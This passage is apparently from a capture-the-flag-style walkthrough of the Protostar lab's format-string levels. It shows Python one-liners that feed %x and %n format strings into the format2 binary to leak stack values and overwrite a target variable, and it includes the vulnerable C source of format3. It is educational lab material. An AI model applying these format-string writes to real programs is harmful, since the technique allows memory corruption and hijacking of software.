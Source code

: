 This is similar to format 1 except that we now have to write a specific value
to `target`.

We locate the start of our input string. This time, it's much easier since it
gets copied to a buffer in the same stack frame as our `printf()`function.

```shell
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA' + '%x.'*3 + '%x'" | /opt/protostar/bin/format2
AAAA200.b7fd8420.bffff5c4.41414141
target is 0 :(
```

With GDB, we find the memory address of `target`.

```shell
(gdb) print &target
$2 = (int *) 0x80496e4
```

We demonstrate that we can write to `target`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xe4\x96\x04\x08' + '%x.'*3 + '%n'" | /opt/protostar/bin/format2
200.b7fd8420.bffff5c4.
target is 26 :(
```

Now, remember that `%n` writes the number of bytes that have already been
written by the function. We have control over that since we can supply
different format string parameters to write more or less bytes. This is usually
done by using `%nu` where `n` is a number that we can manipulate to write the
number of bytes we want.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xe4\x96\x04\x08' + '%x.'*2 + '%47u' + '%n'" | /opt/protostar/bin/format2
200.b7fd8420.                                     3221222852
you have modified the target :)
```

# format 3

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
```

[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/